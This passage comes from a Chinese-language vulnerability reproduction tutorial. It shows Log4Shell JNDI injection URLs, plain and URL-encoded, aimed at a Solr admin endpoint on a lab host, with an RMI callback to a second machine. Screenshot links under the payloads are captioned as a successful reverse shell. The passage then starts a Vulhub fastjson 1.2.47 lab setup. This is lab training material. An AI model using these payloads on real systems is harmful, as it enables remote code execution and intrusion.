 ```python
http://192.168.70.14:8983/solr/admin/cores?_=${jndi:rmi://192.168.70.4:1099/utbwmx}

http://192.168.70.14:8983/solr/admin/cores?_=%24%7bjndi%3armi%3a%2f%2f192.168.70.4%3a1099%2futbwmx%7d
```

![image-20240923113247924](https://image.201068.xyz/assets/36.漏洞复现/image-20240923113247924.png)

### 反弹shell结果

![image-20240923113333139](https://image.201068.xyz/assets/36.漏洞复现/image-20240923113333139.png)

#### 反弹成功

![image-20240923113351701](https://image.201068.xyz/assets/36.漏洞复现/image-20240923113351701.png)

![image-20240923113434842](https://image.201068.xyz/assets/36.漏洞复现/image-20240923113434842.png)

# 二.Vulhub复现fastjson漏洞  

## 0.fastjson介绍

Fastjson 是一个 Java 库，可以将 Java 对象转换为 JSON 格式，当然它也可以将 JSON 字符串转换为 
Java 对象。Fastjson 可以操作任何 Java 对象，即使是一些预先存在的没有源码的对象。

## 1.vulhub靶场安装

下载vulhub离线包，docker-compose启动

### 1.启动docker服务

```python
systemctl start docker
```

### 2.下载vulhub靶场

  vulhub项目地址：https://github.com/vulhub/vulhub

```python
git clone https://github.com/vulhub/vulhub.git
```

### 3.搭建fastjson漏洞环境

```python
cd /root/vulhub/fastjson/1.2.47-rce/
docker-compose up -d
docker ps -s
```
